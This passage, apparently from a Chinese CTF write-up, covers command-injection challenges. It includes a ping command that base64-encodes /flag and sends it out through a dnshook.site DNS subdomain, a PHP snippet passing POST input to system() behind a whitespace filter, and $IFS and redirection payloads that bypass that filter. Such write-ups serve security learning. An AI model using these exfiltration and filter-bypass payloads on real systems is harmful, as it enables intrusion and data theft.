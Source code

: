 ![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1731687105944-3491c15d-04cd-4203-a5f9-5dc99f6f0788.png)

之后按如下格式使用 ping 命令外带,url 编码之后传参

```plain
ping `cat /flag | base64`.xxxxxxx.dnshook.site
```

## RCEisamazingwithspace
### 考点：
**空格绕过 :**[**参考文章**](https://www.cnblogs.com/zzjdbk/p/13491028.html)

+ IFS

$IFS表示分隔符，指定了IFS代表的符号后，该符号会转为空格显示输出

${IFS},$IFS 和$IFS$9 都表示空格

+ <>（重定向符）



+ %09（需要 php 环境）

### 题解：
进入题目，得到源码如下

```php
<?php
  // 高亮显示当前文件内容，方便调试和查看代码结构
  highlight_file(__FILE__);

// 获取 POST 请求中的参数 'cmd' 的值并赋值给 $cmd
$cmd = $_POST['cmd'];

// 使用 preg_match 函数检查命令中是否存在空格，如果存在空格则输出提示信息并退出程序
if (preg_match('/\s/', $cmd)) {
  echo 'Space not allowed in command';
  exit;
}

// 执行用户输入的命令，但这样的代码存在严重的安全风险，因为可以执行任意命令
system($cmd);
?>
$_POST 传入 cmd=cat${IFS}/flag
```

**法一：**使用 $IFS 绕过

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1730732907871-e9c4116d-2c4e-46a5-9879-213cff0aed72.png)

**法二：使用 < 绕过**

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1731727695578-0432cb7a-7ee2-4641-871a-c43928ed1667.png)
